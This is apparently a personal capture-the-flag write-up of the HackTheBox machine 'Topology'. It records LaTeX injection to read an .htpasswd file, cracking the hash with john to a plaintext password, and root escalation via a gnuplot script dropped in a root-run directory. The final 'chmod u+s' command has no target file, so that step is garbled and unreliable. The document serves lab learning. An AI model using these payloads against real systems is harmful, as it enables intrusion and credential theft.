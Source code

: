 
We have the port 80 and 22 open

Running the website of a university in the 80 with this services on the website

![[Screenshot_2023-09-10_10_41_18.png]]
what web doesn't work ..i don't know why

a mail and a phone

lklein@topology.htb

+1-202-555-0143


some names

Professor Lilian Klein, PhD

Head of Topology Group



Vajramani Daisley, PhD

Post-doctoral researcher, software developer



Derek Abrahams, BEng

Master's student, sysadmin


we have a project with an input, and seems to be very vulnerable to remote command executions.

http://latex.topology.htb/equation.php


I did one and this was the result:
http://latex.topology.htb/equation.php?eqn=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=

the site is working with this technologies

![[Screenshot_2023-09-10_10_49_29.png]]

I was thinking on puthing some input on base64 and wait to the output decoding something

```
┌──(cds㉿kali)-[~/Documents/htb/topology/content]
└─$ echo "<?php system('whoami') ?>"| base64 ;echo

PD9waHAgc3lzdGVtKCd3aG9hbWknKSA/Pgo=

```
https://book.hacktricks.xyz/pentesting-web/formula-doc-latex-injection?source=post_page-----99b485c380dc--------------------------------
this is an interesting site where is telling what we can do to exploit this kind of inputs


There is another place where the /etc/passwd are, another folder , i think on websites environments are in
```
var/www/dev/.htpasswd
```
the command to get this file is 

```
$\lstinputlisting{/var/www/dev/.htpasswd}$
```
I think we need to get this hash because if we connect to the machine with remote commands we will be www-data

![[Screenshot_2023-09-10_11_51_55.png]]
vdaisley: $apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0

So this is the hash

the user is vdaisley

maybe this work for remote execution

this is the way to do it
```
\input{output}
```

THere on payload all the things we have the answer

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection
We have a response telling that this is an ilegal comand , when we put "\input" so, we only can try to decode the hash

```
john -w:/usr/share/wordlist/rockyou.txt hash.txt
```
$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0

this is the pass 
```
calculus20
```


NOTHING 

id

NOTHING

sudo -l


NOTHING

find / -perm 4000 2>/dev/null




NOTHING
cappablilities

getcap -r / 2>/dev/null





with pspy we can see that on the system, its executing one time and again and again this command
	

```
/bin/sh -c find "/opt/gnuplot" -name "*.plt" -exec gnuplot {} \; 
```

I cant read it, apparently I have no permissions to do it 

```
-bash-5.0$ ls -l  /opt/gnuplot
ls: cannot open directory '/opt/gnuplot': Permission denied
```

this is the content of opt, and the root is the owner

```
drwx-wx-wx 2 root root 4096 Sep 10 08:10 gnuplot
```

The way to root this machine is very curious and I wont have the skills yet to think on a solution.

we are going to create a file .plt and we are going to insert a payload on it that give us permisions

```
echo 'system "chmod u+s"'
```

To apply the `setuid` bit to a file, we would have run:
chmod u+s
 
 chmod gu+s /home/grupo  # agrega el setuid y el setgid al usuario y al grupo respectivamente

## Setuid

### Descripción

Setuid y Setgid son términos de Unix, abreviaturas para "Set User ID" y "Set Group ID", respectivamente. Setuid, también llamado a veces "suid", y "setgid" son permisos de acceso que pueden asignarse a archivos o directorios en un sistema operativo basado en Unix.


```
echo 'system "chmod u+s"' >/opt/abcdef.plt
```

im using a bash, so when i do bash -p I have a privilegded bash

I think that is because i have a privileged permisions on the system thanks to the script 'system "chmod u+s"' 


```
-bash-5.0$ echo 'system "chmod u+s"' > /opt/gnuplot/abcdef.plt
-bash-5.0$ cat /opt/gnuplot/abcdef.plt
system "chmod u+s"
-bash-5.0$ bash -p
bash-5.0# whoami
root

```

